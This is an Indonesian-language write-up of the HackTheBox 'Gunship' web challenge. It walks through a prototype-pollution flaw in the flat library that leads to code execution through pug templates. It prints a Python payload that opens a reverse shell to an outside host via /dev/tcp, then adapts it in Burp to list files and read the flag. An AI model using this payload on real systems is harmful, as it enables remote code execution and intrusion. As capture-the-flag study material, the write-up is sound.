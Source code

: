 ```yaml
---
title: "HackTheBox - Gunship"
date: 2023-12-29 07:18:00 +0700
categories: [HackTheBox, Challenges]
tags: [very easy, web]
---
```


**Gunship** ialah salah satu tantangan kategori web dari situs HackTheBox, Gunship ini sebenarnya tantangan lama tapi karena saya belum coba, jadi saya kerjakan aja. Ini perjalanan/panduan saya. Oh iya, disini kita akan mempelajari tentang exploit, burpsuite dll.

## Introduction

- Munculkan mesin, hahaha....
- Dan download file-nya

## Enumeration

Pertama-tama kita buka webnya dulu, dan analisis. Lihat dibagian bawah web, kita bisa inputkan sesuatu disitu. **"Who's your favourite artist?"**. Untuk menjawabnya, baca dulu bacaan dibagian atas. Jika kita input asal-asalan akan muncul teks **"Please provide us with the full name of an existing member."**.

Setelah baca yang diatas, terdapat dua nama, yaitu **Dan Haigh and Alex Westaway**. Nah, coba salah satu. Dan hasilnya **Hello guest, thank you for letting us know!**.

Hummm. Coba kita analisis file yang sudah didownload tadi. Nah setelah di ekstrak didalamnya ada banyak file, buka yang folder challenge. Di dalam direktori challenge kan ada flag, gak mungkin lah yaa menemukan flag semudah itu, coba baca flagnya **HTB{f4k3_fl4g_f0r_t3st1ng}**, sudah saya bilang `:)` bruhhhhh, coba analisis yang lain dahh. Nah ada yang menarik di bagian `package.json`.

```
{
	"name": "gunship",
	"version": "1.0.0",
	"description": "",
	"main": "index.js",
	"scripts": {
		"start": "node index.js",
		"dev": "nodemon .",
		"test": "echo \"Error: no test specified\" && exit 1"
	},
	"keywords": [],
	"authors": [
		"makelaris",
		"makelarisjr"
	],
	"dependencies": {
		"express": "^4.17.1",
		"flat": "5.0.0",
		"pug": "^3.0.0"
	}
}
```
{: file='package.json'}

Dibagian depedencies ada flat dan pug, hummm. Coba cari digoogle exploitnya, setelah saya cari kalau kerentanan dari flat itu kita bisa `prototype pollution` dan pug itu kita bisa `mengeksekusi kode`. Coba telusuri dan analisis file lainnya, masuk direktori routes baca index.js

```
const path              = require('path');
const express           = require('express');
const pug        		= require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

	if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the full name of an existing member.'
		});
	}
});

module.exports = router;
```
{: file='routes/index.js'}

Humm, lihat dibagian router post, ada `unflatten` dan `pug.compile`. Coba cari digoogle lagi `:)`, untuk `pug.compile` tidak ada yang menarik, tapi untuk yang `unflatten` ini menarik, coba search `unflatten exploit` buka yang [hacktricks](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution), nah disitu ada bagian pug, analisis itu. Kita bisa copy dari bagian awal protoblock sampai selesai akhir protoblock.

```python
import requests

TARGET_URL = 'http://p6.is:3000'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
    }
})

# execute
requests.get(TARGET_URL)
```
```python
"__proto__.block": {
    "type": "Text", 
    "line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
}
```

Sekarang buka burpsuite, jalan kan yang bagian input-an tadi, masukkan ke repeater burp. Nah di dalam bagian `execSync()` kita ubah jadi `'$(ls)'`, kita akan menampilkan filenya apa aja yang ada di situ. 

![Desktop View](/assets/img/htb/include/Gunship-1.png){: .w-75}

Lihat hasilnya `/bin/sh: flagkmBDk: not found`, nah sekarang coba kita ganti `'$(cat flagkmBDk)'`

![Desktop View](/assets/img/htb/include/Gunship-2.png){: .w-75}

*/bin/sh: HTB{f4k3_fl4g_f0r_t3st1ng}*

> kenapa kok fake flag? karena saya menjalankan yang file Docker, bukan yang dari HTB nya langsung.
{: .prompt-info}